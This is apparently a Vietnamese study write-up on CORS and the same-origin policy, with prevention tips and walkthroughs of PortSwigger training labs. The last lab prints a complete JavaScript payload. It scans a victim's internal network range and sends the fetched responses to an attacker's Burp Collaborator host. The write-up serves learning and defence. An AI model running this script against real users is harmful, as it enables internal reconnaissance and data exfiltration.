

# Cross-origin resource sharing (CORS)


## Lí thuyết


### CORS là gì?

CORS là một cơ chế của trình duyệt cho phép truy cập đến tài nguyên được tải từ tên miền khác. Nó là một phần mở rộng và nới lỏng của same-origin policy (SOP). Tuy nhiên, nó cũng cung cấp cho attacker khả năng tấn công truy cập đến dữ liệu nhạy cảm nếu như được triển khai không tốt.


### Same-origin policy (SOP) là gì?

SOP là một cơ chế bảo mật của trình duyệt nhằm bảo vệ các dữ liệu nhạy cảm khi được truy cập chéo nguồn. Nó cho phép một trang web yêu cầu tài nguyên từ một trang web khác, nhưng không được truy cập đến tài nguyên đó.

Ví dụ:

Trang web [http://unstrusted-website.com/]() yêu cầu một tấm ảnh từ [http://normal-website.com/image1](), trình duyệt sẽ cho phép tải bức ảnh lên trang web, nhưng không cho phép các đoạn mã javascipts truy cập đến ảnh (ví dụ: gửi ảnh, sửa ảnh, ...). 

Điều này sẽ ngăn chặn các hacker lợi dụng để đánh cắp các dữ liệu nhạy cảm. Vì khi một trình duyệt gửi request HTTP từ trang này sang trang khác, bất kỳ cookie nào, bao gồm cả seesion cookie, có liên quan đến trang khác cũng được gửi như một phần của request. Điều này có nghĩa là request sẽ được tạo trong phiên của người dùng và bao gồm mọi dữ liệu liên quan dành riêng cho người dùng. 

Như trong ví dụ trên, hình ảnh được yêu cầu từ [http://unstrusted-website.com/]() có thể sẽ là một hình ảnh bí mật mà chỉ người dùng được phép truy cập, tuy nhiên vì chúng được gửi truy vấn từ trình duyệt người dùng bao gồm cả seesion cookie, các trang web vẫn sẽ cung cấp hình ảnh đó vì seesion cookie hợp lệ, tuy nhiên cơ chế SOP trên các trình duyệt sẽ đảm bảo tấm ảnh đó vẫn được tải và hiển thị trên trang web yêu cầu, nhưng các đoạn mã khác của trang web không thể truy cập đến hình ảnh đó để chỉnh sửa hoặc đánh cắp và gửi đến nơi khác, do đó chỉ có người dùng trình duyệt mới có thể xem ảnh.

Không có Same-origin policy, nếu bạn truy cập một trang web độc hại, nó có thể đọc email của bạn từ GMail, tin nhắn riêng tư từ Facebook, ... Same-origin policy sẽ ngăn chặn trang web đọc các dữ liệu nhạy cảm đó và gửi đi đến một nơi khác, đảm bảo dữ liệu nhạy cảm của bạn sẽ không bị đánh cắp.


### Cross-origin resource sharing (CORS)

Cơ chế SOP là rất nghiêm ngặt và hạn chế, một vài trang web (tên miền phụ hoặc bên thứ 3) vì các lí do khác cần quyền truy cập đến các dữ liệu được truy vấn. CORS cho phép nới lỏng các hạn chế và kiểm soát quyền cho phép truy cập đến dữ liệu truy vấn. CORS sử dụng các HTML header để xác định nguồn gốc và các thuộc tính liên quan, chẳng hạn như quyền truy cập được xác thực có được phép hay không. Chúng được kết hợp trong một cuộc trao đổi giữa trình duyệt và trang web có nguồn gốc chéo mà nó đang cố gắng truy cập.

Nhiều trang web hiện đại sử dụng CORS để cho phép truy cập từ các miền phụ và các bên thứ ba đáng tin cậy. Việc triển khai CORS của họ có thể có sai sót hoặc quá khoan dung để đảm bảo rằng mọi thứ đều hoạt động và điều này có thể dẫn đến các lỗ hổng có thể khai thác được.


### Phòng chống tấn công CORS

Các lỗ hổng CORS phát sinh chủ yếu do việc cấu hình sai. Nên cách đơn giản phòng chống là cấu hình cho đúng =))

```
1) Chỉ cho phép các trang web đáng tin cậy được truy cập
2) Tránh sử dụng NULL trong Access-Control-Allow-Origin, các lệnh gọi tài nguyên miền chéo từ các tài liệu nội bộ và các yêu cầu hộp cát có thể chỉ định nguồn gốc rỗng. Tiêu đề CORS nên được xác định đúng theo nguồn gốc đáng tin cậy cho các máy chủ riêng và công cộng.
3) Tránh các kí tự đại diện cho mạng nội bộ, chỉ tin cậy cấu hình mạng để bảo vệ tài nguyên bên trong là không đủ khi các trình duyệt nội bộ có thể truy cập các miền bên ngoài không đáng tin cậy.
4) Không dùng CORS để thay thế cho các chính sách bảo mật phía máy chủ, CORS chỉ là một cơ chế của hệ điều hành và nó chỉ giúp bảo vệ một phần. Cần có các chính sách khác từ phía máy chủ để bảo vệ các tài nguyên nhạy cảm, như xác thực, quản lí phiên, ...
```


## PortSwiggerLab


### Lab: CORS vulnerability with basic origin reflection

Link: [https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)


Đề yêu cầu dùng javascript code và lợi dụng CORS để lấy adminstrator’s API key

Đăng nhập thử


Ta nhận thấy rằng có một GET request gửi đến `/acountDetails` để nhận về respone bao gồm apikey, chúng ta có thể thấy trường `Access-Control-Allow-Credentials: true` nhưng không có `Access-Control-Allow-Origin`.

Chúng ta sẽ viết một scripts trong đó chúng ta gọi GET đến `acountDetails` để lấy admin API key, sau đó lưu vào log


Đoạn script này đầu tiên sẽ gửi get đến [https://ac0b1fcd1e9bf22980a318e30056008e.web-security-academy.net/accountDeatils]() và do cookie của máy nạn nhân là `admin`, chúng ta sẽ lấy nhận được apikey của `administrator`, sau đó chúng ta gửi kết quả nhận được về log. Truy cập log, ta tìm được


 
Solve thành công


### Lab: CORS vulnerability with trusted null origin

Link: [https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)


Đề gợi ý rằng server tin tưởng giá trị null trong trường origin

Ta thử đăng nhập và bắt với burpsuite


Ta thử dùng cách như lab trước để exploit

Không thành công, chẳng có gì xuất hiện trong log cả


Ta nhận thấy trường origin xuất hiện trong request, thử thay nó thành null



Ta nhận thấy trường `access-control-allow-origin: null` xuất hiện trong respone, tức server truth origin null

Như vậy ta sẽ thử đặt lại script exploit vào một <iframe>, khi đó origin trong request sẽ là null


Kiểm tra log, ta tìm được apikey
  

  
Submit apikey
  
  

  
Solve thành công


  

### Lab: CORS vulnerability with trusted insecure protocols

Link: [https://portswigger.net/web-security/cors/lab-breaking-https-attack](https://portswigger.net/web-security/cors/lab-breaking-https-attack)


Đề vẫn yêu cầu ta sử dụng CORS để lấy administratos’s API key, mình đã kẹt ở đây khá lâu, tuy nhiên sau khi đọc hint, mình đã tìm được hướng đi chính xác. Đề gợi ý rằng có một cách nào đó có thể thực thi javascript trên subdomain.

Đầu tiên ta kiểm tra xem CORS có truth các subdomain hay ko


Có một subdomain ta tìm được khi dùng để check stock trên web

Bây giờ thử thay nó vào request burp suite


Ta thấy rằng domain của [https://stock.ac3d1f1e1f0e79ba80690ea500cc0089.web-security-academy.net]() được server truth

Như vậy ta có thể lợi dụng việc server truth các subdomain, nếu trên các subdomain có một lỗ hổng giúp chúng ta có thể thực thi js, chúng ta sẽ tấn công CORS được, mình nghĩ ngay đến lỗ hổng XSS vì trước đây mình từng làm lab về XSS trên nền tảng này.

Test thử lỗi XSS


Trang web bị lỗi XSS


Ok, như vậy ta chỉ cần lợi dụng lỗ hổng XSS trên subdomain stock và tấn công CORS để lấy administrator API key


Ta sẽ cho toàn bộ phần script lấy API (bôi xanh) vào biến productId, nơi xảy ra lỗi XSS để thực thi đoạn script như bình thường. Và vì nó được thực thi từ subdomain stock, server truth và trả về API


Submit API


Solve thành công


### Lab: CORS vulnerability with internal network pivot attack

Link: [https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)


Lần này website sẽ tin tưởng tất cả truy vấn đến từ mạng cục bộ. Đề yêu cầu ta tìm một endpoint trên mạng cục bộ mà ta có thể truy cập, rồi từ đó tấn công CORS đến website dựa vào sự tin tưởng của website trong mạng nội bộ. Và xóa user Carlos.

Bước đầu tiên là ta phải scan một endpoint trong mạng cục bộ, ta sẽ send một scirpt tới và khi người trong mạng cục bộ truy cập, chúng sẽ gửi truy vấn tới các địa chỉ ip trong mạng cục bộ, nếu địa chỉ  trang web qua mạng cục bộ, nếu trang web truy vấn thành công thì sẽ gửi truy vấn đến burp collaborator của ta

Địa chỉ burpcollaborator.net của mình là [0vweksr5nav9my7avnsnvaxy3p9gx5.burpcollaborator.net]()

Đoạn script

```
<script>
var q = [], collaboratorURL = 'https://a7iow23fzk7jy8jk7x4x7k98fzlp9e.burpcollaborator.net';
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(wait){
    fetchUrl(url,wait);
    }
  }('http://192.168.0.'+i+':8080'));
}
for(i=1;i<=20;i++){
  if(q.length)q.shift()(i*100);
}
function fetchUrl(url, wait){
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
    location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
  }
  ))
  .catch(e => {
  if(q.length) {
    q.shift()(wait);
  }
  });
  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()(wait);
  }
  }, wait);
}
</script>

```

Truy cập vào burp collab, ta thấy có một địa chỉ ip hợp lệ là 192.168.0.239


